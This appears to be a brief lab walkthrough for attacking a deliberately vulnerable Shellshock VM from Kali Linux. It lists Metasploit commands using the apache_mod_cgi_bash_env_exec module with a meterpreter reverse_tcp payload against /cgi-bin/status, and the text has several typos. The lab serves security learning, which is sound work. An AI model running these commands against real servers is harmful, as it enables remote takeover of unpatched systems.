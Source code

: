 Download shellshockVM

Create vm in virtual machine 

enter command in shellshock ifconfig

get that tp address

open that ip in kali firefox 

check status in that ip/ status

perform this commanf in metasplite framwork

use exploit/multi/http/apache_mode_cgi_bash_env_exec

set LHOST ipadress
set RHOST ipadress
set TARGETURI/cgi-bin/status
set payload linux/x86/meterpreter/reverse_tcp
exploit
